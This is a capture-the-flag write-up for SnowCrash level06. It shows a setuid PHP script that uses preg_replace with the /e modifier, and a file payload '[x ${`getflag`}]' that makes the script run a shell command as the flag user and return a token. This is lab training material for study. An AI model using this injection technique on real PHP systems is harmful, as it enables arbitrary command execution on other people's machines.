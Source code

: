 # Start / Analyse

```sh
level06@SnowCrash:~$ ll
total 24
dr-xr-x---+ 1 level06 level06  140 Mar  5  2016 ./
d--x--x--x  1 root    users    340 Aug 30  2015 ../
-r-x------  1 level06 level06  220 Apr  3  2012 .bash_logout*
-r-x------  1 level06 level06 3518 Aug 30  2015 .bashrc*
-rwsr-x---+ 1 flag06  level06 7503 Aug 30  2015 level06*
-rwxr-x---  1 flag06  level06  356 Mar  5  2016 level06.php*
-r-x------  1 level06 level06  675 Apr  3  2012 .profile*
```
> we have on exec with effectif user flag00 and level06.php

```sh
level06@SnowCrash:~$ cat level06
ELF☺☺☺☻♥☺(□4T◄4         (▲
```
> cut ssh conection

```php
level06@SnowCrash:~$ cat level06.php
#!/usr/bin/php
<?php
function y($m) { $m = preg_replace("/\./", " x ", $m); $m = preg_replace("/@/", " y", $m); return $m; }
function x($y, $z) { $a = file_get_contents($y); $a = preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a); $a = preg_replace("/\[/", "(", $a); $a = preg_replace("/\]/", ")", $a); return $a; }
$r = x($argv[1], $argv[2]); print $r;
?>
```
> seems to be the source code of the exec, la fonction utilise preg_replace qui donc remplace les pattern par d'autres dans les array ou des strings

## Interpretation des varaiables

In PHP the input `id` and ``` `id` ``` does not work because it prints the strings
to print a variable in a php string you have to put the expression in \${exp} so that the back ticks will be interpreted as an alias of shell_exec
${`id`}

If we put ```${`id`}``` in the file, the program outputs ```${`id`}``` because it takes the return from file_get_contents as a string literal

## e modifier 
Using the e modifier allows us to use PHP functions within the replace parameters. The following bit of code turns all letters upper case in a string of random letters by using the strtoupper() PHP function.

## the \2 parameter

The parameter \n returns the n match of regex here the 2nd match so (.*)

## eval
The eval function in php interprets the variables in a string, exactly what we need to launch a command. The callback which is called by preg_replace with the modifier /e execute eval has its parameter

# Exploit

We must therefore tilt the first regex to enter the callback function that our string is eval

/tmp/file.txt : 
```
[x ${`id`}]
```

`[x ]` to tilt the regex 

And `(.*)` matches \2 which is passed to the call back so everything after `[x ` will be eval

/tmp/file.txt : 
```
[x ${`getflag`}]
```

```sh
level06@SnowCrash:~$ ./level06 /tmp/file.txt /tmp/file.txt
PHP Notice:  Undefined variable: Check flag.Here is your token : wiok45aaoguiboiki2tuin6ub
in /home/user/level06/level06.php(4) : regexp code on line 1
```


>> *https://stackoverflow.com/questions/15454220/replace-preg-replace-e-modifier-with-preg-replace-callback*
